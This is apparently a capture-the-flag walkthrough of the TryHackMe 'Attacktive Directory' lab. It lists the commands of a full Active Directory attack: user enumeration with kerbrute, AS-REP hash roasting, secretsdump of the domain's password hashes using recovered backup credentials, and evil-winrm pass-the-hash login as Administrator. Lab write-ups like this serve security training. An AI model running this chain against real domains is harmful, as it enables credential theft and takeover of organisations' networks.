*2021-09-11*

*kimm3*

# Walkthrough: Attacktive Directory
Platform: TryHackMe

Difficulty: Medium

- [Link](https://tryhackme.com/room/attacktivedirectory)

## Setup


```
script history/enum1
export IP=10.10.97.47
```

(Machine responds to ICMP echo)
## Scans and enumeration
`sudo nmap $IP -p- -A -Pn -v -oA scans/nmap-init`



That's alot of ports. Looks lik a WS Domain controller.



Standard IIS page at port 80.

Since kerberos is activated, let's try to enumerate users.



```
kerbrute userenum --dc AttacktiveDirectory.spookysec.local -d spookysec.local xato-net-10-million-usernames.txt
```



(There is one user that dosen't exist in any SecList wordlist, svc-admin. The room provides a custom wordlist for this to make it easier.)



User 'svc-admin' did not have preauth enabled so we got a hash.



Cracked quite easily. Let's try to connect to smb with this.





We retrive a text file.



Text file contains encoded credentials to the backup user. If this backup user is used to backup the dc, it has access to the NTDS database and password hashes.

`python3 secretsdump.py spookysec.local/backup:backup2517860@AttacktiveDirectory.spookysec.local -outputfile ../../scans/secretsdump`

## Foothold/Exploit
We don't need to crack these hashes, we just use pass the hash to login.

`evil-winrm -i $IP -u Administrator -H 0e0363213e37b94221497260b0bcb4fc`



The flags are at the users desktops.


